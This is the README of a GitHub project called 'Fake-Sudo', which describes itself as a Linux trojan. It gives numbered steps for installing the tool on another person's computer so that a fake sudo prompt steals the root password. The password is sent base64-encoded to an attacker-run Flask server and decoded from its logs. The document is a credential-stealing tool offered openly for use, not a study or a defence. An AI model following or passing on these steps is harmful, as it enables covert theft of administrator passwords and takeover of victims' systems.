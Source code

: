 # Fake-Sudo
A linux trojan
## How to use
<b>WARNING: this only works for linux users.</b><br><br><br>
The following commands shall be executed in the terminal.
1. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
2. Install pip if you haven't already<br>`sudo apt instal pip -y`
3. Make a server<br>`pip install flask`<br>`python3 flask.py`
4. Go to the computer you want to steal the root password from
5. Clone the repo<br>`git clone https://github.com/NarmakTwo/Fake-Sudo.git`<br>`cd Fake-Sudo`
6. Setup the program<br>`chmod a+x setup.sh`<br>`source setup.sh`
7. Clear the screen<br>`clear`
8. Enter the public URL for the server you made (NOT 127.0.0.1)<br>`Site (include https:// or http://) <<< [your url]`
9. Once the server log says something, copy the end of the url (e.x. `0.0.0.0 - - [January/1/2021 10:23] "GET /`**`qfgghheyfhrf;e/vfrtgisfkdgiyes`**` HTTP/1.1" 404 -`)and decode it<br>`echo [end of url] | base64 -d`, That's the root password!
10. That's it!
